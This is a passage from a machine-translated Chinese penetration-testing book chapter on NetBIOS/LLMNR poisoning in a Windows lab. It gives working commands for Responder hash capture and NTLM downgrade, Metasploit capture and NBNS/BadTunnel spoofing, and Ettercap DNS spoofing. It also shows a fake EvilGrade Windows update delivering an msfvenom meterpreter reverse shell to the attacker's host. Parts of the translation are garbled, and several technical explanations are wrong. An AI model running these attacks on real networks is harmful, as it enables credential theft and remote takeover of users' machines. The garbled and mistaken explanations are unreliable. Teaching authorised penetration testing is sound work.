





# NetBIOS 名称服务和 LLMNR-已过时但仍然致命

在本章中，您将学习如何使用那些遗留的专有和已损坏的协议，这些协议仍然存在于几乎所有的网络中，对您有利，并获得您想要的访问。这是 Bo 最喜欢的攻击向量，他最喜欢的 To.T0.低垂果 OrthT1，通常会导致域和每个与该域相关的账户的总 t2。一年多，最有可能的 80%次史诗失败测试结果来自于某种攻击方式的攻击向量。

为什么我瞄准的第一台机器是 Windows 系统？答案是：NetBIOS、LLMNR、NTML 和 SMB 协议。

在本章中，我们将介绍以下主题：

*   NetBIOS 名称服务和 NTLM
*   嗅探和捕获流量

# 技术要求

要遵循本章，您需要以下内容：

*   Kali Linux 的运行副本
*   多个 Windows 操作系统（将这些操作系统作为虚拟机运行会很好）

# NetBIOS 名称服务和 NTLM

早在联网的早期，就在个人电脑诞生之后，人们就希望能够从一个系统到另一个系统共享文件。在商业应用中，系统已经能够使用专有网络协议（如 IPX（网络间数据包交换）、托尔金环和同轴总线网络）进行网络连接。所有这些专有协议的一个大问题是它们之间都不能进行交叉通信。这被称为供应商锁定，即使在今天，我们仍然拥有一些专有系统和协议。（是的，我指的是你，微软。）使用这些协议意味着为网络上的每个系统支付许可证费用，不仅是操作系统的费用，而且是网络每个系统的额外费用，然后是每个通过网络连接到服务器的工作站的额外费用。然后，是的，你可以有两个彼此远程的网络，并使用当时的电话线将它们连接起来，但是系统必须运行相同的操作系统和网络协议才能进行通信。DEC 网络即使在同一栋楼里也无法与 Netware 网络通话，更不用说通过电话线了。这也是政府和军队面临的问题，全国各地的通信以及即将到来的数据传输和电话时代都通过许多单点故障进行路由，无法使这种通信自行路由。通信网络可以通过点击几个战略点来关闭。需要使用通用通信语言的自路由网络，ARPANET 和 TCP/IP 协议套件也随之诞生。我很幸运在一开始就做了这件事，我从未想过它会发展到今天的水平。

在此期间，微软提出了自己的网络 Windows 系统协议，但同样，这些协议是专有的，只能在 Windows 系统上运行。第一个是 NetBUI。NetBUI 是一种不可路由的协议，只需要很少的配置，连接到同一个本地交换机或集线器的系统可以通信并愉快地共享文件和数据；然而，如果你想把文件发送到全城，那么最好给自己准备一张软盘。如果您的本地网络上有一个 UNIX 设备，您将再次需要软盘将数据从 Windows PC 传输到 UNIX 服务器。NetBUI 仅适用于 Windows！当然，它很容易使用，你不需要成为网络工程师就可以连接到网络，你只需插入电缆，通过知道其他计算机的名称，你就可以神奇地连接到它们，共享文件，删除文件，甚至远程控制系统。哇，太酷了！除了，在这些日子里，Windows 没有安全保护。

记住，这是作为一台独立的 PC 机出售的，在这个系统中，可以通过观察谁坐在电脑前的椅子上来控制安全性。无需登录，无需用户帐户，无需 ACL，只需对本地网络上的每个系统开放和无限制访问。好的，你之所以读这本书，是因为你要么在互联网安全领域工作，要么对它感兴趣，所以这里有一个课堂问题。*您认为这种网络模式有问题吗？*如果没有，请获得本书的退款，并购买一本更好的家园和花园，您将得到更好的服务。与 UNIX 不同，UNIX 从一开始就被设计成一个网络操作系统，而 Windows 从一开始就没有被设计成网络操作系统，现在仍然受到这些糟糕开端的影响。

那么这种魔法是如何发挥作用的呢？当你将一个系统连接到网络上时，系统会发出 ARP 广播说，*嘿，我的计算机名是 WS3，我把这些东西存储在这里*。主浏览器是一个系统，通常是网络上的第一个系统，它跟踪机器名和网络资源。如果这个系统崩溃，那么网络上的所有系统都将通过 ARP 进行选举，并决定谁将成为下一个主浏览器。现在，如果一个网络上的机器少于 20 台，但在同一个网络上的机器超过 20 台，那么这一切都很好，而且现在通信问题只会随着网络中每增加一台额外的机器而增加。

还记得小号 Winsock 吗？Winsock 是第三方软件，您必须在 Windows 系统上手动加载，并与 com 端口进行斗争，才能使其正常工作。这是 Windows 的第一个 TCP/IP 网络堆栈。微软后来买下了 Winsock，他们的源代码是 Windows NT 内置的 Windows TCP/IP 接口的基础和第一个版本。（不，微软没有发明 TCP/IP）。

我们都知道问题所在：使用此方法意味着您可以访问网络上的所有内容。在网络上的任何系统上，任何数据都不会受到窥探者或窃贼的保护，使用这种方法，也无法追踪谁在访问这些数据。此外，您可以无需登录和任何凭据即可远程控制此系统。是的，你可以运行`del C:\Windows\*`并完全用软管连接机器。此外，远程位置的系统无法与家庭办公室通信，因为 NetBUI 是不可路由的。所以，我们都知道这是行不通的。微软最终也解决了这个问题，因此 NetBIOS 得到了改进，但不是修复。这也是微软从 IBM 偷走大卫·卡特勒（David Cutler）的时候，大卫·卡特勒从 IBM 的 OS2 中带走了他的设计，并从设计和构建 Windows NT 的 OS2 中拿走了他的设计。（是的，NT 的老爹是 OS2。）NT 被设计成具有文件级安全用户帐户和 ACL 的网络化操作系统。

一个真正的网络操作系统。它在某种程度上也与可移植操作系统接口（POSIX）兼容，因此它可以在有限的基础上与基于 UNIX 的机器通信。他们必须签订政府合同，当时所有政府系统都必须符合 POSIX 标准。在这里，我们再次得到了供应商的锁定是的，NT 有一些被认为是 POSIX 兼容的有限 API，在纸面上看起来很好，但它们在现实世界中从未工作过。当试图让这些产品发挥作用时，微软的解决方案是*购买更多的微软产品*。它还附带了用于网络接口的 TCP/IP 堆栈。现在，我们可能会说，*现在我们准备好进入黄金时段*。嗯，不完全是。微软一如既往地将“易用性”放在了他们的面前。当然，简单易用是一件好事，但在安全性方面并不总是如此。想一想，如果你不必锁门，不必握着钥匙，进入你的房子是多么容易。如果你的门上没有锁，你就永远不会把自己锁在外面。

微软和像它这样的公司想要你的所有业务，而不仅仅是其中的一部分，并竭尽全力打破通用协议。我们又开始了供应商锁定。当然，我们将使我们的系统易于使用，并易于连接到您为我们付费的其他系统，但在与 UNIX 服务器通信时，请忘记这一点。哦，你想访问文件服务器吗？然后购买我们的服务器，然后您的电脑将能够与服务器通话。所以，由于供应商锁定，我们只能使用 NetBIOS 和 NTLM 服务。

NTLM 的目的是在网络上查找系统和资源。在 Active Directory 域环境中，Kerberos LDAP 和 DNS 负责登录和共享网络资源的位置。DNS 是 TCP/IP 套件中用于此用途的协议，也是我们每天在 internet 上查找所需内容的协议。Windows 确实使用 DNS 进行系统调用，但如果**完全限定域名**（**FQDN**）未被使用，则 Windows 默认返回 NTLM 进行系统查找。这是我们的攻击向量：使系统查找恢复到 NTLM，因此信息现在通过 ARP 广播发送，而不是使用 TCP 或 UDP 直接调用 DNS 服务器来传输数据。

当用户使用计算机名连接到服务时，Windows 会查看以下内容以将名称解析为 IP 地址：

*   本地主机文件-`C:\Windows\System32\drivers\etc\hosts`
*   域名服务器
*   NBNS

您可能会问，名称查找如何通过 DNS 进行查找？嗯，是故意的。Windows 可以使用 DNS 在域中进行查找，但系统仍然喜欢使用机器名的缩写版本或其 NetBIOS 名称，因此机器将通过网络发送 ARP 广播，而不是使用 DNS。使用 IP 地址而不是域名访问网站时也会发生这种情况。

默认情况下，域控制器仍将接受此选项以进行登录。所以我的机器不是以`//SRV1.companyname.net`的身份登录，而是以`\\SRV1`的身份登录。在这些广播数据包中，有我的机器名、IP 地址、用户名和密码，因此任何使用数据包嗅探器（如 Wireshark）被动监听网络的人都可以轻松捕获这些凭据。一个小小的 ARP 欺骗，这些凭证开始在网络上弹出，然后。。。

NTLM 仍在以下情况下使用：

*   客户端正在使用 IP 地址向服务器进行身份验证
*   客户端正在向属于其他 Active Directory 林的服务器进行身份验证，该林具有传统 NTLM 信任，而不是可传递的林间信任
*   客户端正在向不属于域的服务器进行身份验证
*   不存在 Active Directory 域（通常称为工作组或对等）
*   防火墙将限制 Kerberos 所需的端口（通常为 TCP 88）

基本上，NTLM 就像在拥挤的酒吧里尖叫你的用户名和密码，而 AD/DNS 更像是两个人之间的安静对话。

# 嗅探和捕获流量

在本节中，我们将看到我们在[第 4 章](04.html)、*嗅探和欺骗*中所学内容在嗅探和捕获工具方面的实际应用。当我们在[第 4 章](https://cdp.packtpub.com/kali_linux_2018_x__windows_penetration_testing_/wp-admin/post.php?post=332&action=edit#post_162)、*嗅探和欺骗*中运行这些工具时，我们捕获了 NTLM 和明文密码。我们还找到了主要目标的位置。在这里，我们将使用从劳动成果中收集的金钥匙。通常，当你第一次捕获一个散列并查看它时，你会想，*我能用它做什么？它是加密的*。毕竟，你没被告知，如果它是加密的，那么它是受保护的吗？事实是，超过一半的时间，当我违反了 Windows 系统，我不知道实际的密码。当你可以*传递哈希值*时，为什么还要花时间破解密码？

# 使用 ETERCAP 数据

以下截图是我们在[第 4 章](https://cdp.packtpub.com/kali_linux_2018_x__windows_penetration_testing_/wp-admin/post.php?post=332&action=edit#post_162)、*嗅探和欺骗*中使用 eTerCap 捕获的中毒攻击数据的副本：


# 使用 NBTscan 进行 NetBIOS 扫描

在 Windows 域环境中工作时，最好的结果来自于知道您正在攻击的域名。您有时可以使用默认的`WORKSTATION`组收集一些凭据，但这个方便的小工具可以快速找到您要查找的域信息。以下是 NBTscan 的帮助文件：

要从命令行获取帮助文件，请键入以下内容：

```
nbtscan 
No -h or -help is needed. 
NBTscan Help File 
NBTscan version 1.5.1\. Copyright (C) 1999-2003 Alla Bezroutchko. 
This is a free software and it comes with absolutely no warranty. 
You can use, distribute and modify it under terms of GNU GPL. 

Usage: 
nbtscan [-v] [-d] [-e] [-l] [-t timeout] [-b bandwidth] [-r] [-q] [-s separator] [-m retransmits] (-f filename)|(<scan_range>)  
 -v  verbose output. Print all names received 
   from each host 
 -d  dump packets. Print whole packet contents. 
 -e  Format output in /etc/hosts format. 
 -l  Format output in lmhosts format. 
   Cannot be used with -v, -s or -h options. 
 -t timeout wait timeout milliseconds for response. 
   Default 1000\. 
 -b bandwidth Output throttling. Slow down output 
   so that it uses no more that bandwidth bps. 
   Useful on slow links, so that outgoing queries 
   don't get dropped. 
 -r  use local port 137 for scans. Win95 boxes 
   respond to this only. 
   You need to be root to use this option on Unix. 
 -q  Suppress banners and error messages, 
 -s separator Script-friendly output. Don't print 
   column and record headers, separate fields with separator. 
 -h  Print human-readable names for services. 
   Can only be used with -v option. 
 -m retransmits Number of retransmits. Default 0\. 
 -f filename Take IP addresses to scan from file filename. 
   -f - makes nbtscan take IP addresses from stdin. 
 <scan_range> what to scan. Can either be single IP 
   like 192.168.1.1 or 
   range of addresses in one of two forms:  
   xxx.xxx.xxx.xxx/xx or xxx.xxx.xxx.xxx-xxx. 
Examples: 
 nbtscan -r 192.168.1.0/24 
  Scans the whole C-class network. 
 nbtscan 192.168.1.25-137 
  Scans a range from 192.168.1.25 to 192.168.1.137 
 nbtscan -v -s : 192.168.1.0/24 
  Scans C-class network. Prints results in script-friendly 
  format using colon as field separator. 
  Produces output like that: 
  192.168.0.1:NT_SERVER:00U 
  192.168.0.1:MY_DOMAIN:00G 
  192.168.0.1:ADMINISTRATOR:03U 
  192.168.0.2:OTHER_BOX:00U 
  ... 
 nbtscan -f iplist 
  Scans IP addresses specified in file iplist. 
```

如果您先运行 Ettercap，目标列表将为您提供一些要扫描的地址，以快速查找域信息，或者您可以使用此工具通过使用 CIDR 网络列表扫描整个本地子网。对于该网络，它将是`172.16.42.0/24`：


现在我们有了域名（`LAB1`或工作组名称，接下来我们可以使用 Responder。

# 响应者-如此多的散列，如此少的时间

**Responder.py**是一个 Python 工具，它可以攻击 NTLM 和 SMB 协议的几乎所有向量。在下面的屏幕截图中，我们有响应者帮助文件。我们将介绍一些选项及其用途。

要从命令行访问 Kali Linux 上的响应程序帮助文件，请键入以下命令：

```
responder -help  
```


您必须使用的主要标志是`-I`或`-interface= flag`，因为您必须告诉响应者要使用哪个接口。所有其他标志都是可选的，但这些标志为您的攻击提供了很多控制。

Responder 自带了自己的密码和散列收集工具，但我们也可以使用 Metasploit 来捕获我们的战利品，因此我们可以使用 Metasploit 模块在进一步的攻击中使用这些凭证。我们将介绍收集捕获凭据的两种方法。

首先，我们将设置 Responder 来完成自己的工作并收集自己的哈希值。首先是`-I`标志，将其设置为活动接口。这里是`wlan0`。这是最重要的旗帜。响应程序将在不设置任何其他标志的情况下运行默认配置，但必须设置接口才能运行。在下面的命令中，我还设置了`-w`来启动`wpad`服务器；在`wpad`服务器上强制进行基本身份验证的`-F`标志，该标志将以明文形式捕获和`wpad`登录；试图将 NTLM 认证降级为 NTLMv1 的`-lm`标志；将 NTLM HTTP 连接降级为基本或明文的`-b`标志；用于重定向`wpad`连接的`-r`标志；和`-d LAB1`标志来设置要攻击的域。然后点击*进入*运行。然后，您将获得正在运行的服务的屏幕打印，攻击将开始。完整命令如下所示：

```
responder -I wlan0 -w -F --lm -b -r -d LAB1  
```

一旦攻击开始，响应者就会毒害网络上的 SMB ARP 广播。运行此攻击的最佳时间是网络上存在大量用户流量时。如果此攻击在非工作时间运行，并且没有用户流量，则只会捕获系统帐户。必须有用户流量才能捕获用户凭据。

在以下屏幕截图中，我们看到中毒攻击的开始和管理员帐户凭据的捕获：


在前面的屏幕截图中，我们可以看到我们已经捕获了来自`\\WIN10-01`工作站的管理员登录。这是在用户从工作站登录到域时捕获的。请注意，这是一个 NTLMv2 散列，它是一个盐渍 NTLMv1 散列。盐渍散列基本上是重新散列的散列。在 SMB 登录的质询和响应部分，交换一个 16 位随机哈希值。然后使用该随机值对 NTLMv1 56 位散列进行散列。然后传输到服务器的新散列是 NTLMv2 散列值。由于 salt 是一个随机值，因此捕获的 v2 散列是不可重放的，但好消息是，诸如 good old John the Ripper 或 Hashcat 之类的程序可以脱机破解这些散列。它们不能用于*传递散列*式攻击。

在下面的屏幕截图中，我们登录了`LAB1\rred`。同样，这是来自登录到域的用户，并且再次捕获不可重放的 NTLMv2 散列。在两次捕获之后，您会注意到，在几行之后，响应者再次捕获登录，但不会在屏幕上重复。它仍然作为一个单独的散列记录到日志文件中。在日志文件中，您可以看到质询和响应散列何时从文件中不可重放的更改中更改。实际密码未更改，但质询和响应哈希在响应之间已更改：


在下面的屏幕截图中，我们可以看到发送到网络上各种机器的有毒答案。接下来，我们可以看到 HTTP 捕获。此捕获来自设置-b 标志以将 HTTP 登录降级为明文，而不是使用 NTLM 哈希作为密码。正如我们所看到的，我们有一组明文形式的用户凭证。头奖请看以下屏幕截图：



在我们的小攻击之后，让我们看看日志。攻击的所有屏幕输出都存储在响应者日志目录中的单独文件中。默认情况下，在`/usr/share/responder/logs`处找到：


在前面的屏幕截图中，我们看到了攻击期间输出的各种日志。应答器在将这些数据分解成可用位方面做得非常好。

本次运行的`Analyzer-Session.log`为空。当您运行`-A`标志时，NBT-NS 响应的原始输出将保存到此文件中。

`Config-Responder.log`文件是运行 Responder 时攻击期间使用的配置和变量的输出。

`Poisoners-Session.log`是中毒会话的会话输出。

`HTTP-Basic-ClearText-<IPAddress>.txt`文件是从`<IPAddress>`捕获的凭证的输出。每个系统捕获的凭据保存在单独的文件中。我们可以在下面的屏幕截图中看到攻击中列出的两个文件：


`SMB-NTLMv2-<IPAddress>.txt`文件是捕获的不可重放哈希和用户帐户。此文件的格式为所谓的*John*格式。这意味着裂土器 John 可以轻松读取文件，而无需任何额外的格式设置。Hashcat 和大多数其他密码破解程序也会毫无问题地读取这些文件。运行攻击时，输出显示重复捕获，但不显示捕获的哈希。在下面的屏幕截图中，我们看到了所有捕获的哈希。请注意，每个捕获中的哈希值都不相同，但密码没有更改。这是起作用的盐：


在通过您选择的密码破解程序运行文件之前，请删除文件中除一个条目以外的所有条目。这将缩短您的运行时间，因为饼干将不必运行所有不同的盐。

# 将响应程序与 Metasploit 一起使用

现在我们将使用 Responder 并将捕获发送到正在运行的 Metasploit 模块。这样，凭据将保存到 Metasploit 数据库，并且在运行 Metasploit 的漏洞攻击时可以使用捕获的凭据。基本上，我们要做的是禁用 Responder toolkit 附带的捕获服务器，并使用 Metasploit 的捕获服务器运行相同的服务器。

要禁用响应程序的服务器，我们将编辑响应程序配置文件。该文件位于`/etc/responder/Responder.conf`处。在您喜爱的文本编辑器中打开该文件。在文件顶部，您可以看到配置设置为`On`的服务器列表-将这些设置更改为`Off`并保存文件：



以下屏幕截图显示了更改后的文件：


接下来，我们需要启动 Metasploit 并启动捕获服务器。要启动 Metasploit，请运行以下命令：

```
msfdb start # This will start the database.
msfconsole # This will start the console.  
```

让我们启动服务器。启动顺序在这里并不重要，但这些服务器是这次攻击所需的三大服务器。更改到工作区后，运行以下操作：

```
use auxiliary/server/wpad # This set up the wpad module for use.
show options # This will show the options.  
```


我觉得最好设置`SRVHOST`设置。将其保持在`0.0.0.0`将设置服务器监听所列端口的所有接口。硬设置`SRVHOST`将减少任何网络/接口混乱。特别是当您运行多个活动接口时，利用漏洞可能会混淆该走哪条路，或者像`wpad`这样的服务会主动侦听错误的接口。最好是硬设置，只是为了确定。对于本次攻击，本地 IP 地址为`172.16.42.139`：

```
set SRVHOST 172.16.42.139
```

要将其关闭，请运行以下命令：

```
    run -j # The -j flag will run the job in the background.

```

接下来，让我们使用以下命令启动 SMB 捕获服务器：

```
use auxiliary/server/capture/smb
show options  
```



再次设置`SRVHOST`。您可以使用向上箭头键返回上次设置的属性：

```
set SRVHOST 172.16.42.139
run -j # Again this will run the job in the background
```

有两种方法可以捕获 HTTP 流量。一个是`auxiliary/server/capture/http_ntlm`模块。此模块将在其 NTLM 哈希中捕获凭据。这些散列将是可重放的，因为我们的攻击服务器发送了挑战。挑战盐值之前已定义，我们看到它设置为`1122334455667788`。此攻击捕获的哈希可用于*传递哈希*式攻击。要设置并运行此模块，请运行以下命令：

```
use auxiliary/server/capture/http_ntlm
show options  
```


再次设置`SRVHOST`。您可以使用向上箭头键返回上次设置的方式：

```
set SRVHOST 172.16.42.139  
```

由于`wpad`服务器在端口`80`上运行，我们需要将此服务移动到另一个 HTTP 端口，因此我们将其设置为在端口`443`上运行，并将 SSL 设置为 true，如下所示：

```
set SRVPORT 443 # Set to local service port to 443
set SSL true # This sets a self-signed cert to the port.
set JOHNPWFILE john-cap.txt # This will set an output file.
run -j # Again this will run the job in the background
```

第二种方法将导致 NTLM 登录降级为明文，就像响应程序附带的 HTTP 服务器一样。使用此捕获方法，凭证就可以使用了。一次只能使用其中一个模块。尝试同时运行这两个将导致第二个 HTTP 服务器崩溃，有时还会导致第一个 HTTP 服务器开始挂起。

要设置和启动 HTTP basic capture server，请运行以下命令：

```
use auxiliary/server/capture/http_basic
show options  
```


再次设置`SRVHOST`。您可以使用向上箭头键返回上次指定的设置。

如前所述，由于`wpad`服务器在端口`80`上运行，我们需要将此服务移动到另一个 HTTP 端口，因此我们将其设置为在端口`443`上运行，并将 SSL 设置为 true：

```
set SRVPORT 443 # Set to local service port to 443
set SSL true # This sets a self-signed cert to the port.
set SRVHOST 172.16.42.139
run -j # Again this will run the job in the background
jobs # Below we see the three running jobs.  
```


我们还可以运行一个 spoofer 来帮助捕获。这是`auxiliary/spoof/nbns/nbns_response`模块。帮助文件对此有最好的描述，因此我在这里提供了它：

说明：

此模块伪造**NetBIOS 名称服务**（**NBNS**响应。它将侦听发送到本地子网广播地址的 NBNS 请求并伪造响应，从而将查询机器重定向到攻击者选择的 IP。与`auxiliary/server/capture/smb`或`auxiliary/server/capture/http_ntlm`相结合，它是在公共网络上收集可破解哈希的一种非常有效的方法。此模块必须以 root 用户身份运行，并将绑定到所有接口上的 UDP/137。

参考资料：

[http://www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html](http://www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html)

对于我们的攻击，我们将欺骗域控制器。此攻击的域控制器 IP 地址为`172.16.42.5`。那么，让我们设置 spoofer 并按如下方式运行它：

```
use auxiliary/spoof/nbns/nbns_response
set INTERFACE wlan0 # your local network interface. For this attack it is wlan0
set SPOOFIP 172.16.42.5 # the victim IP address.
run -j # This will run the job in the background.
```

我们可以在一开始就看到模块正在欺骗来自`172.16.42.105`的`wpad`请求，而这还没有响应程序运行。



现在我们准备再次启动响应程序。在 Kali 上启动一个新的终端窗口，并使用与上次相同的标志启动响应程序。这次运行的唯一区别是中毒攻击将运行，但响应服务器将被禁用，而 Metasploit 这次将捕获流量。

在下面的屏幕截图中，我们看到 Metasploit 欺骗并捕获来自`172.16.42.105`的流量。我们可以在`172.16.42.5`看到对域控制器地址的响应模块：


在下面的屏幕截图中，我们看到捕获的 SMB 流量进入，通过查看挑战的长度，我们可以判断这些是 NTLMv2 哈希。如果您运行`creds`命令，输出将显示这些是不可重放的：



通过运行`creds`命令，我们可以看到捕获的凭证，如下所示：


好的，这些都是不可重放的散列，但我们有一部分谜题是在正常捕获的流量中无法得到的，比如我们通过响应者服务捕获的流量。这一次，我们面临挑战。当我们设置 SMB 捕获模块时，挑战 salt 设置为`1122334455667788`。因此，如果我们通过裂土器 John 运行这个不可重放的散列，以及捕获的 salt 散列，那么我们现在基本上只是在破解 NTLM 散列，而不是在计算 salt 时消耗 CPU 时间。在上一个屏幕截图中，输出是 John 格式的，我们可以在散列的第一部分中找到挑战 salt。这基本上破坏了咸杂烩的安全性

# NetBIOS 响应隧道暴力欺骗

这也是一个 NBNS 名称欺骗，但与前面讨论的不同，它将遍历使用 NAT 的防火墙连接。大多数 NetBIOS 欺骗程序仅在本地网络上工作。与其他工具一起使用，这是一个伟大的恶搞。

有关此欺骗如何工作的最佳描述来自 info 文件，如下所示：

```
   Name: NetBIOS Response "BadTunnel" Brute Force Spoof (NAT Tunnel) 
  Module: auxiliary/server/netbios_spoof_nat 
  License: Metasploit Framework License (BSD) 
   Rank: Normal 
 Disclosed: 2016-06-14 

Provided by: 
 vvalien 
 hdm <x@hdm.io> 
 tombkeeper 

Available actions: 
 Name  Description 
 ----  ----------- 
 Service  

Basic options: 
 Name  Current Setting Required Description 
 ----  --------------- -------- ----------- 
 NBADDR 172.16.42.139  yes   The address that the NetBIOS name should resolve to 
 NBNAME WPAD      yes   The NetBIOS name to spoof a reply for 
 PPSRATE 1000      yes   The rate at which to send NetBIOS replies 
 SRVHOST 172.16.42.139  yes   The local host to listen on. 
 SRVPORT 137       yes   The local port to listen on. 

```

说明：

此模块侦听 NetBIOS 名称请求，然后针对给定主机名持续向目标发送 NetBIOS 响应，导致目标为此名称缓存恶意地址。在高速网络上，应增加 PPSRATE 值以加速此攻击。例如，当为 WPAD 查找欺骗响应时，大约 30000 的值几乎是 100%成功的。远程目标可能需要更长的时间和更低的攻击速率才能成功攻击。当目标位于 NAT 网关后面时，此模块工作，因为 NetBIOS 响应流将在初始设置后保持 NAT 映射活动。要触发对 Metasploit 系统的初始 NetBIOS 请求，请强制目标访问指向相同地址（HTML、Office 附件等）的 UNC 链接。这一 NAT 穿孔问题被发现者于阳（Yu Yang）（`@tombkeeper`）命名为 BadTunnel 漏洞。Microsoft 修补程序（MS16-063/MS16-077）会影响代理主机（WPAD）主机的识别方式，但不会改变 NetBIOS 请求的可预测性。

要设置此模块，我们需要设置以下参数：

```
set NBADDR 172.16.42.139 # Set to the update server's address. Our Kali machine.
set SRVHOST 172.16.42.139 # Set this to keep down interface confusion.
set PPSRATE 30000 # Since we are on a local network we have set this to the max setting.  
```

一旦设置并运行，我们将运行以下命令：

```
run -j  # This will run the spoofer in the background.  
```

现在我们已经设置了 NBNS spoofer，让我们设置 EvilGrade 并运行它。

# 邪恶等级

EvilGrade 是一个模块化框架，允许用户通过注入虚假更新来利用升级实施，不仅适用于 Windows 操作系统，也适用于其他流行的 Windows 应用程序。名单很长。该框架附带了预先制作的二进制文件（代理），但自定义二进制文件也可以推送到受害者机器上。该框架具有自己的 web 服务器和 DNS 服务器模块。

在这次攻击中，我们将利用 Windows`wpad`服务并推出一个坏的 Windows 更新。我们将构建自己的有效负载，以便将 Metasploit MeterMeter 外壳上传到受害者机器，而不是使用预构建的二进制文件。通过这种方式，我们可以使用 Metasploit 工具进行进一步的折衷。

EvilGrade 没有默认安装的 Kali，因此我们需要从存储库安装它。因此，让 BadTunnel 窗口保持打开状态，现在打开一个新的 Terminal 窗口并运行以下命令：

```
apt-get update # As normal update the repo first.
apt-get -y install isr-evilgrade # This will install Evilgrade.  
```

安装完成后，我们就可以开始了。打开新的端子窗口，然后从命令行键入以下内容：

```
evilgrade
```

您将看到以下输出。加载时，您将看到可用模块的列表。该框架有一个类似于 Metasploit 的接口：


以下屏幕截图显示了`modules`输出的延续：


通过运行`show options`我们可以看到模块列表。请注意不同类型应用程序的所有模块，包括硬件供应商的更新服务。是的，你可以上传一个 rootkit 到宏碁或联想的笔记本电脑上。这超出了本书的范围，但是通过一点配置，就像我们在这里所做的一样，这个工具将完成以下工作：

```
evilgrade> show modules 

List of modules: 
=============== 

acer 
allmynotes 
amsn 
appleupdate 
appstore 
apptapp 
apt 
asus 
atube 
autoit3 
bbappworld 
blackberry 
bsplayer 
ccleaner 
clamwin 
cpan 
cygwin 
dap 
divxsuite 
express_talk 
fcleaner 
filezilla 
flashget 
flip4mac 
freerip 
getjar 
gom 
googleanalytics 
growl 
inteldriver 
isopen 
istat 
itunes 
jdtoolkit 
jet 
jetphoto 
keepass 
lenovo 
lenovoapk 
lenovofirmware 
linkedin 
miranda 
mirc 
nokia 
nokiasoftware 
notepadplus 
openbazaar 
openoffice 
opera 
orbit 
osx 
paintnet 
panda_antirootkit 
photoscape 
port 
quicktime 
safari 
samsung 
skype 
sparkle 
sparkle2 
speedbit 
sunbelt 
sunjava 
superantispyware 
teamviewer 
techtracker 
timedoctor 
trillian 
ubertwitter 
vidbox 
virtualbox 
vmware 
winamp 
winscp 
winupdate 
winzip 
yahoomsn 
- 78 modules available. 
```

安全注意：这是 Windows 系统上的一个大的攻击向量。与 Linux 不同，Linux 可以从中央存储库下载所有软件包并通过 GPG 密钥进行验证，而 Windows 应用程序的每个应用程序都依赖于自己的更新程序。这允许这种攻击方式用于许多通常不被认为是攻击向量的常见应用程序。这也是为什么在使用本书所示的 Kali 时，您应该从存储库下载应用程序，避免从其他网站下载和安装单个应用程序的原因。

我们需要为 DNS 服务设置 IP 地址。键入以下命令：

```
show options # Shows EvilGrade's default settings.
set DNSAnswerIp 172.16.24.139 # Set the DNS server's address.     
```


我们在此攻击中使用 Windows Update 服务（wpad），因此要加载 Windows Update 模块，请输入以下内容：

```
evilgrade>configure winupdate 
```

接下来，我们需要我们的有效载荷。为了构建有效负载，我们将使用 MSFvenom。打开一个新的终端窗口，然后在命令行中键入以下代码。`-p`标志是要使用的有效载荷。我们正在使用`windows/meterpreter/reverse_tcp`有效载荷。因为这是一个反向 shell，所以必须为攻击机器上要调用的负载设置本地主机和本地端口。我们的卡利机器位于`172.16.42.139`。

我们将把我们的端口设置为`445`，一个标准的 Windows 端口，并使用`-o`标志将其保存到`/tmp/windowsupdate.exe`：

```
msfvenom -p windows/meterpreter/reverse_tcp -e LHOST=172.16.42.139 LPORT=445 -f exe -o /tmp/windowsupdate.exe 
```


我们已将有效负载保存到`/tmp/windowsupdate.exe`，因此需要将代理设置为此路径。

在 running Grade framework 窗口中，键入以下内容以将负载设置为自定义负载：

```
set agent /tmp/windowsupdate.exe # This sets the agent to the custom agent.
show options # This will show the module's options to check the settings.
start # This will start both the DNS and Web service for the attack.  
```


现在，为了允许连接，我们需要设置一个 multi/handler，在系统被破坏后接受绑定连接。从我们正在运行的 Metasploit 终端，我们在后台运行 BadTunnel，我们将启动一个`multi/handler`并在后台运行它。在 Metasploit 中，运行以下命令：

```
use exploit/multi/handler
set LHOST 172.16.42.139 # Kali's IP address.
set LPORT 445 # Set the listening port. The payload is set to 445.
run -j # Start the handler in the background.  
```


# ETERCAP 设置

Ettercap 是一个很好的欺骗工具，我们在本书中已经使用了很多，我们将再次推出它。我们需要欺骗 DNS 服务并将其定向到我们的 Kali box。eTerCap 附带了一个插件，专门用于此目的。在这次攻击中，由于我们的 Kali 盒是受害者网络的本地设备，因此我们可以使用 GUI 版本。您可以在嗅探和欺骗| ettercap 图形下找到这一点。程序如下：

1.  首先，我们需要设置我们的 DNS A 记录，以便在欺骗时使用。如果这是你第一次伪造 DNS，你需要用你最喜欢的文本编辑器创建一个新文件。将以下 A 记录添加到文件中。通过通配符记录（`*.`，我们应该是好的，如下所示：

```
*.microsoft.com  A 172.16.42.139 # Kali's address
*.windowsupdate.com  A 172.16.42.139  
```

将此文件保存到`/usr/share/ettercap/etter.dns`。关闭编辑器您的伪造记录已准备就绪：


2.  接下来，我们需要将活动接口设置为欺骗来自的流量，如下所示：


3.  接下来，我们需要激活 DNS 欺骗插件。在菜单栏中，转到插件，然后管理插件。这将为您提供一个窗口，列出所有可用的各种插件：


4.  接下来，从列表中选择 dns_ 欺骗并双击它。左侧将出现一个星形，表示它已激活。您还将在 eTerCap 底部的文本窗口中看到：


5.  接下来，让我们运行一次扫描以找到我们的目标，如下所示：


扫描后，我们需要选择路由器作为目标 1，选择我们的目标机器（`win7-01`作为目标 2。您可以通过选择地址并右键单击它来完成此操作—菜单将允许您设置目标号码：


拾取目标后，您可以通过进入菜单栏中的目标|当前目标来查看它们。要开始此过程，请转到菜单栏中的 Mitm | ARP 中毒并单击。您将得到一个设置嗅探类型的框。一旦启动，您可以在底部屏幕中查看输出，如下所示：


# 袭击

我们现在都准备好了，我们的进攻正在全力进行。我们有 Metasploit 运行 BadTunnel NBNS 欺骗，同时运行 DNS 服务器和 web 服务器，在运行伪造的 Windows 更新站点的情况下发布更新。我们还为负载设置了要连接到的处理程序。现在我们只是在等待毫无戒心的受害者更新他们的 Windows 系统。

在 Windows 工作站上，当受害者使用 IE 手动更新其系统时，会显示以下页面。看起来很正常，你可以看到地址栏上的地址是[http://www.microsoft.com](http://www.microsoft.com) 。没有真正的警告迹象表明这不是微软的网站。

所以，让我们点击并更新我们的电脑！您知道如何确保其安全：


我们点击 Download and Install Now（立即下载并安装）按钮，我们会得到一个提供`update97543.exe`文件的普通文件下载框。它甚至似乎是由`windowsupdate.microsoft.com`签署的。这个档案肯定是合法的吗？

让我们单击运行并获取更新：


